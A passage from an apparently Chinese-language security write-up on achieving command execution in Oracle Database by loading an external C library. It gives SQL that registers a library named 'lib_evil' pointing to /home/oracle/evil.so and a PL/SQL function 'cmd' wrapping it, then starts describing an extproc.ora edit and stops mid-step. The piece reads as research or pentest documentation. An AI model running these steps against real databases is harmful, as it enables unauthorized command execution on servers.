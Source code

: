 之后我们和上述说的 Java source 的创建方式一样，创建一个 Lib

```plain
create or replace library lib_evil as '/home/oracle/evil.so';
/
```

[![](assets/1709112088-d4dabcfa61fc82b2337f345ba3a103cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101106-a1751c6e-d5de-1.png)

成功创建 Lib 后也是创建一个 function，以 lib 里的代码为模板，这里参考一下网址  
[https://medium.com/codex/extending-the-sql-and-pl-sql-with-custom-external-functions-and-procedures-214067761061](https://medium.com/codex/extending-the-sql-and-pl-sql-with-custom-external-functions-and-procedures-214067761061)

```plain
create or replace function cmd(str varchar2) return varchar2 as language c library lib_evil name "cmd";
```

创建好后直接运行会出现如下情况

[![](assets/1709112088-6c137fe1647e0f9995b56120de8140af.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101120-a9ffe850-d5de-1.png)

报错 Extproc agent:Invalid DLL Path，这一点上述文章中有提到，我们需要设置一下 dll path  
我们在`$ORACLE_HOME/hs/admin/extproc.ora`文件的末尾加上一行代码
